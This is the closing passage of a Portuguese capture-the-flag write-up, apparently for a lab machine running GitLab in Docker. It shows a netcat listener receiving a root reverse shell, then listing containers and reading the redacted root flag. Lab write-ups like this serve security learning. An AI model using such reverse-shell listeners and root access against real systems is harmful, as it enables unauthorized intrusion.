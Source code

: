 Com a conexão recebida, confirmado que estávamos dentro do host executando o comando `docker ps` e, na sequência, obtido a flag de root.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.220] 38246
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# docker ps
CONTAINER ID        IMAGE                          COMMAND             CREATED             STATUS                 PORTS                                   NAMES
7eb263389e5e        gitlab/gitlab-ce:11.4.7-ce.0   "/assets/wrapper"   2 months ago        Up 5 hours (healthy)   22/tcp, 443/tcp, 0.0.0.0:5080->80/tcp   docker-gitlab_web_1
# cat /root/root.txt
<redacted>
```

Espero que tenham gostado.

Vejo vocês no próximo post! :smile:
